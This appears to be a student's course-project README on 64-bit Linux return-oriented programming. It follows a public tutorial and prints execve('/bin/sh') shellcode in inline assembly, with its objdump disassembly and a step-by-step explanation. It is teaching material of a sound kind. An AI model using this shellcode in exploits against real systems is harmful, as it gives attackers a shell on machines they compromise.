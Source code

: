 # 64-bit Linux Return-Oriented Programming (CSc 480-project2)
## Christopher Yang
Followed tutorial found at: http://crypto.stanford.edu/~blynn/rop/

### My environment
I am running on Ubuntu 12.04 LTS (GNU/Linux 3.2.0-23-generic x86_64) via Vagrant.

Near the end, I switch to Ubuntu 16.04.1 LTS.

### The shell game
syscall - programmatic way in which a program can request a service from the kernel of the OS.

kernel - connects application software to the hardware of a computer

#### shell.c
```
int main() {
  asm("\
needle0: jmp there\n\
here:    pop %rdi\n\
         xor %rax, %rax\n\
         movb $0x3b, %al\n\
         xor %rsi, %rsi\n\
         xor %rdx, %rdx\n\
         syscall\n\
there:   call here\n\
.string \"/bin/sh\"\n\
needle1: .octa 0xdeadbeef\n\
  ");
}
```

##### Procedure of shell.c
1. In needle0: Jump there
2. Call here
3. Return to .string and execute /bin/sh
4. Then run in needle1 .octa 0xdeadbeef

References from: https://www.cs.rutgers.edu/~pxk/416/notes/c-tutorials/exec.html

execve - runs the shell command in the string and then the main's function gets run

Display disassemble info from needle0 to needle1
```
$ objdump -d a.out | sed -n '/needle0/,/needle1/p'
00000000004004f1 <needle0>:
  4004f1:	eb 0e                	jmp    400501 <there>

00000000004004f3 <here>:
  4004f3:	5f                   	pop    %rdi
  4004f4:	48 31 c0             	xor    %rax,%rax
  4004f7:	b0 3b                	mov    $0x3b,%al
  4004f9:	48 31 f6             	xor    %rsi,%rsi
  4004fc:	48 31 d2             	xor    %rdx,%rdx
  4004ff:	0f 05                	syscall

0000000000400501 <there>:
  400501:	e8 ed ff ff ff       	callq  4004f3 <here>
  400506:	2f                   	(bad)
  400507:	62                   	(bad)
  400508:	69 6e 2f 73 68 00 ef 	imul   $0xef006873,0x2f(%rsi),%ebp

```